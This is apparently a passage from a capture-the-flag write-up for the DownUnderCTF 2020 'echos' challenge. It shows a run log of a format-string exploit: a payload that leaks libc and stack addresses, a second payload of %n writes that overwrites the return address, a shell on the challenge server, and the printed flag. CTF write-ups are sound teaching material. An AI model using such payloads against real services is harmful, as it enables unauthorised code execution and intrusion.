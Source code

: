 
Let's try it out:
```
[*] '/ctf/ductf20/echos'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/ductf20/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30001: Done
[*] sending first payload b'%19$lx %6$lx AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[*] libc at: 0x7f7c914c8000
[*] ret at: 0x7ffd6da3d5d8
[*] sending second payload b'%9100c%13$lln%23536c%14$hn%4577c%15$hnaa\xd8\xd5\xa3m\xfd\x7f\x00\x00\xdc\xd5\xa3m\xfd\x7f\x00\x00\xda\xd5\xa3m\xfd\x7f\x00'
[*] writing 0x7f7c91517365 to 0x7ffd6da3d5d8
[*] Switching to interactive mode

 ...

              \x81aa\xd8\xd5\$ anything
anything
$ ls
echos
flag.txt
$ cat flag.txt
DUCTF{D@N6340U$_AF_F0RMAT_STTR1NG$}
```